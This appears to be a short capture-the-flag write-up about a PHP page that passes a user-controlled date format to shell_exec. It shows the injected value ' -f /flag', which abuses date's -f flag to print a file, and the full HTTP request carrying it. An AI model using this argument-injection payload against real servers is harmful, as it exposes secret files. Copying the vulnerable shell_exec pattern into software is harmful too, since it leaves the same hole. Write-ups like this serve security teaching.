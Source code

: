 
2025-05-22 11:06

Source: [[linux]]

The first thing was to understand the following exec command in [[PHP]] source code.

```
$result = shell_exec("date '+" . escapeshellcmd($format) . "' 2>&1");
```

The only parameter we could change was format and fortunately it was not being sanitized. So I was sure that I have to exploit something from here.  
I understood that the following command runs on the server

```
date +'<format here>'
```

For a long time I kept thinking ways to execute `cat` command somehow but the `escapeshellcmd` function wouldn’t allow me to do so. So I went ahead and opened the `man` page of `date` using  `man page` and see if I could print a file using this and I did. 
The `-f` flag can open `DATEFILE` and read date from it, however if the file format was not DATEFILE, it would print the contents of the file as part of the error.
So I carefully crafted a request to read the flag file (which btw had to be guessed where is) - turned out it was at `/flag.`  
`format=' -f /flag'`  

```
GET /?format=%27%20-f%20%2Fflag%27 HTTP/1.1
Host: strange.kp7b0h3vueu5g.ap-south-1.cs.amazonlightsail.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Content-Length: 4
```

### References
date man page - https://man7.org/linux/man-pages/man1/date.1.html

https://0xkn1gh7.com/2024/06/20/Bitguard-Cybersecurity-Hackathon-2024-Writeups/